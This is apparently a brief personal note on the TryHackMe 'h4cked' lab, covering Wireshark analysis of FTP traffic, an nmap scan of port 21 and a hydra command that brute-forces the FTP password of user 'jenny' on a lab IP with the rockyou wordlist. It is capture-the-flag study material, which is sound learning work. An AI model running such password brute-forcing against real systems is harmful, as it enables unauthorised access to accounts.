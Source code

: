 Learned about h4cked on tryhackme

#1st part::

used wireshark to answer various question on thm using the FTP( File Transfer Protocol )

#2nd part
using various commands to replicate the attack

ex used 
```
sudo nmap -p21 -sV -vv -oN new/report.txt "ipaddress of machine"
```
![[Pasted image 20241028154942.png]]
now to crack the password we use hydra

```
hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.93.22
```

![[Pasted image 20241028155530.png]]

